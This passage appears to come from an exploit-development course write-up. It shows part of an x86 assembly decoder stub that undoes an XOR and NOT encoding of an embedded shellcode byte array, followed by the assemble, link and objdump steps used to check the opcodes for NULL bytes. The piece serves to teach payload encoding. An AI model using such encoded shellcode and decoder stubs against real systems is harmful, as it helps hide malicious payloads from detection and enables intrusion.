 ```nasm
    jz shellcode
	xor byte [esi], 0xe4
    not byte [esi]
	inc esi
	jmp short decode

call_decoder:
	call decoder
	shellcode: db 0x2a,0xdb,0x4b,0x73,0x34,0x34,0x68,0x73,0x73,0x34,0x79,0x72,0x75,0x92,0xf8,0x4b,0x92,0xf9,0x48,0x92,0xfa,0xab,0x10,0xd6,0x9b,0x7c
```

#### Compiling & Examining the Assembly
The `nx-decoder.nasm` shellcode is compiled as explained in previous posts. The commands used were run on 64-bit Kali Linux. To start, the code should be assembled with `/usr/bin/nasm` as shown below. As the program is written in x86 assembly, the `elf32` file type is specified using the `-f` flag.

```shell
root@kali:~/workspace/SLAE# nasm -f elf32 nx-decoder.nasm -o nx-decoder.o
```

With the code assembled, the next step is to link the `nx-decoder.o` file with `/usr/bin/ld`. The `-m` flag specifies that the `elf_i386` emulation linker should be used.

```shell
root@kali:~/workspace/SLAE# ld -m elf_i386 nx-decoder.o -o nx-decoder
```

As `nx-decoder` has been compiled and linked, it should now be disassembled into opcodes using `/usr/bin/objdump` for further examination. Using the command shown below, the operation codes can be examined for any `NULL` characters. The output has been truncated to conserve space.

```shell
root@kali:~/workspace/SLAE# objdump -d ./nx-decoder -M intel

./nx-decoder:     file format elf32-i386


Disassembly of section .text:

08049000 <_start>:
 8049000:       eb 0e                   jmp    8049010 <call_decoder>

08049002 <decoder>:
 8049002:       5e                      pop    esi

08049003 <decode>:
 8049003:       80 3e 7c                cmp    BYTE PTR [esi],0x7c
 8049006:       74 0d                   je     8049015 <shellcode>
 8049008:       80 36 e4                xor    BYTE PTR [esi],0xe4
 804900b:       f6 16                   not    BYTE PTR [esi]
 804900d:       46                      inc    esi
 804900e:       eb f3                   jmp    8049003 <decode>

08049010 <call_decoder>:
 8049010:       e8 ed ff ff ff          call   8049002 <decoder>
...
```
